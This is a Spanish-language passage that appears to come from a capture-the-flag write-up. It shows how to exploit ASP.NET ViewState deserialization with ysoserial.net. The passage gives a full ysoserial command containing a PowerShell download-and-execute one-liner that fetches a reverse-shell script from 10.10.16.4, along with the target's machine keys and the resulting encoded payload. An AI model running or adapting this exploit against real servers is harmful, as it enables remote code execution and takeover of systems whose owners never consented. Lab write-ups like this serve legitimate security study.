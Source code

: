 Luego de leer y entender como llegar a explotarlo podremos usar el [ysoserial.net](https://github.com/pwntester/ysoserial.net) . Usaremos una maquina `windows 10` y ejecutaremos lo siguiente en una cmd. 

```python
C:\FilesExplotation\ysoserial-1.34\Release>.\ysoserial.exe -p ViewState  -g TextFormattingRunProperties -c "powershell.exe iex (New-Object Net.WebClient).DownloadString('http://10.10.16.4/Invoke-PowerShellTcp.ps1')" --path="/portfolio/default.aspx" --apppath="/" --decryptionalg="AES" --decryptionkey="74477CEBDD09D66A4D4A8C8B5082A4CF9A15BE54A94F6F80D5E822F347183B43"  --validationalg="SHA1" --validationkey="5620D3D029F914F4CDF25869D24EC2DA517435B200CCF1ACFA1EDE22213BECEB55BA3CF576813C3301FCB07018E605E7B7872EEACE791AAD71A267BC16633468"

iiiQVb82PWty4YznLnKHSWZ2lvQjMX6JiAqnO%2Fd1oacbSESsVXx8FJatadv1b7BHZq%2BbOQHnJrMtlaVIPAH6jWH7vL7sFCcTnwb3eFeBLGzmzOX1lOVB50v2xmnG2Sb3hiteji5CFhI%2FJIgLesKbcqZ2j6M7NUvVkp7ZFNNEL%2FbBtfhXf%2B7Obx40pgTFs115H9FQ7polMlRkyfDNAQgKDmluMxTxiCSYdyqNLrcq4IyL6Ib75tpuyUzVrKDEX8ezegBIhxxThIOelzgeTcx5XPsirjUrgYjUgtP%2FN01ifQmiHsONefNcNkbgQit4AVKDXFWSZfeO8bH%2Bd%2FcZ7xg%2FNY3bj99o5ezNbKqC7K5cmDus2JBvf3HaGweBLdjJKqmZJZdvjt3p5A3csN82QTDPFAucnf%2FlgIrCaecebH36TwlrjbP5pfeCiJg0wpjTeCh6Gj2odLlUQQ%2BVzTTYgGcTBytfqEhaDXx%2F9xi22XJzGMT3uaq9poDVOfUH%2FFapO%2FTyiFR%2FS8GSVDb4KPcaOFkV89UslHoDGqTk1wZj5qRC2Oyzk%2FGU6CMoW%2Fah1kialiEwdkLVYfYIZAbQ1eG%2BiiNs8qeQkOKyO%2B2xyVVGh7JcJRziWaObvyo5EqDib72QtoAfioae9cjqNrA2phHEZ3TyYOlT0Go2bOr2c2nAV9yVHuvLIqV2Innl%2FBaTp%2BMGtCsterEd4Enpq5I1nkYJ7XTfho%2FSL3bSSfwKZEA1NlbKZXscJm1JjYujOLc3ri7i%2BURlFtVLL3gWh9NSaOj%2BnpGthPce7EEgWb7Dd9ccmRCSNhkGXE%2F9GWFiSsNv2SCM1ahRUwX7gWgKkPzaDRHiHQMmvMC0KqWSAP%2Bkmk9JYgncnttelsVZ5sPhJXeBrL9Ho2uqEF1MKEIlWiEc9VlnweGzYxCSIZv3CZFHPHnauCpN2YIHYrWrVZXjJOxi6EtXZZ6o1Yi7rGDow%2FhDIYbeR1kzq%2B8iGOFYoyUMdqOiKyhs9AyCkfIke6vznT0HaJfumw8KsQn0UHRpCYVre%2BqpF0NIFyCas%2FzgvVz3crm8Qn9cxHmGx9Rc%2FiYyPEtGoBg6gX5cgyjjRezJbdSG1d7ZcADDoh8G5mvu4RSG3ziMC1Dp%2F7bbshQArM43axbYokIJtiZi8MRHb1zaqDa5cemN5sLwROJkKpLxMRzK%2BNIo%2BwkclRFFFbk72oeWlGuOKUWrVasqvkDAWza06Q6NT1L2Tp7gzPsCu8NsjbFQPebvCNrurk63n3zC2kDPte1W2agcXkAVR7AqDXo9siC6ABtXnQUc403vIPANa2KzHmPBc%2BZvxHqnDQghcpBvnvBrXPtWbUatKfSJ2p3cI2Ssozm1FYZY4rpIvTwx%2BvWRhBZaTMSk0P4g96coKZASol7ESFK23ptsTD9trQ%3D%3D
```

![20240311095051.png](20240311095051.png)
